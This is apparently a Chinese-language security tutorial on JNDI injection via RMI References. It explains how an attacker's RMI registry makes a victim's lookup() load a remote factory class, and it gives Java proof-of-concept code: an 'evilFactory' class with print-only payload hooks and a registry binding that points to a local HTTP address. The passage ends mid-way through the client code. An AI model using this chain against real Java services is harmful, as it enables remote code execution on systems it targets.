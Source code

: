 在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。
#### 恶意的factory
利用思路如下攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类,该类的地址指定为远程地址(一般为HTTP服务等),目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例.  
在这个过程中客户端首先会实例化我们指定的Factory类,那么我们便可以在该Factory类的静态代码块,构造函数中写入恶意代码,那么在实例化时便会触发恶意代码,或者重新写`getObjectInstance()`方法使其在获取远程对象时触发恶意代码.  
#### 实现代码
恶意Factory,javac 编译后class文件放到HTTP服务器上.
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class evilFactory implements ObjectFactory {
    static {
        System.out.println("static invoke");
    }
    public evilFactory (){
        System.out.println("Construct invoke");
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {

        System.out.println("getObjectInstance invoke");
        return null;
    }
}
```  
注册中心绑定Reference引用,引用指向恶意Factory class文件的远程地址.
```java
package rmiserver;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmi {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new Reference("evilFactory","evilFactory","http://127.0.0.1:8089/");
            ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
            registry.rebind("evilFactory", refObjWrapper);
            System.out.println("evilFactory reference bound");
    } catch (Exception e) {
        e.printStackTrace();
    }
    }
}
```
客户端lookup url可控.
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

```